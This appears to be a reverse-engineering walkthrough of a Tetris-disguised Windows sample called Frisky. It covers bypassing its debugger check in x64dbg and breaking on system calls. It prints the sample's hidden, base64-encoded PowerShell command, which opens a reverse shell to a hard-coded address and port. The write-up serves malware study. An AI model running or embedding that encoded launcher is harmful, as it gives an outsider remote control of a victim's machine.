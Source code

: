 # Frisky Analysis

### Project Location
[Frisky repo](https://github.com/UnDefinedCS/frisky)

### VM Environment
OS - Windows 11

Install the following:
- [Visual Studio C++ Redistributable](https://aka.ms/vs/17/release/VC_redist.x64.exe)
- [x64dbg](https://sourceforge.net/projects/x64dbg/files/latest/download)


### Walk-through
We can see after running tetris that we get a popup saying something about hypervisors, we can explore where this box came from the icon in the `taskbar`.

We can load up `x64dbg` and start reviewing the file. First lets look into the symbols tab, this shows insight on functions being ran.

We can see there is one that is concerning `IsDebuggerPresent` we can then show trying to run the program in the debugger we get a popup about the debugger.
![frisky_](image-2.png)

To get around this we can set a breakpoint to the call and edit the return value so we trick the program into thinking its not in a debugger.
Once we hit this breakpoint we can use the step to see where the flow goes, we are looking for a `test` instruction, this indicates a conditional check is performed.
![frisky2_](image-3.png)

Once we find this we can set the `RAX` register to `0`, RAX is the register used for return values of functions. We can also observe from the sides the strings that are displayed from the popups, we can use this to find the next test we need to `patch`.

Clearly the program is running system commands, so lets place a breakpoint on syscalls and try to extract the exact commands. There are a lot of potential symbols for syscalls:
msvcrt   | _system, _wsystem
kernel32 | CreateProcess
ntdll    | CreateProcessInternal, NTCreateUserProcess, NTCreateProcess

I entered substrings and only found `system` from `msvcrt`, so I added a breakpoint. After moving through I got a hit and now I can see the commands being ran!

![alt text](image-4.png)

We can see from the side text a better visual of the command being sent. We can click the line where the powershell command is at and take a better look into it.
![alt text](image-5.png)

==== Bottom Section of x64dbg ====
```
rax=0000028BB81660B0 "powershell -nop -W hidden -noni -ep bypass -e JAB2AGoAZQBiAGUAZgBiAHIAagB2ACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACcAMQAwAC4AMwA3AC4AMQAuADEAMAAzACcALAAgADQANAA0ADQAKQA7AA0ACgAkAGQAaQBoAGcAdQByAGgAZAAgAD0AIAAkAHYAagBlAGIAZQBmAGIAcgBqAHYALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwANAAoAJABhAGgAYwBlAGIAZgBqAGEAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtAFcAcgBpAHQAZQByACgAJABkAGkAaABnAHUAcgBoAGQAKQA7AA0ACgANAAoAZgB1AG4AYwB0AGkAbwBuACAASABJA"
```

We can take this base64 string to [cyberchef](https://gchq.github.io/CyberChef/) and see whats being ran. This is a partial, from intuition this is potentially a `shell script`, but I want to get everything this program has to offer.

We can go back to the original line using `right-click > follow in dump > RAX`. We can then copy and paste the lines into [cyberchef](https://gchq.github.io/CyberChef/) and with some find-replace magic we now have the full shell-script! We can also always take exe files to `Ghidra` and reverse engineer them there as well!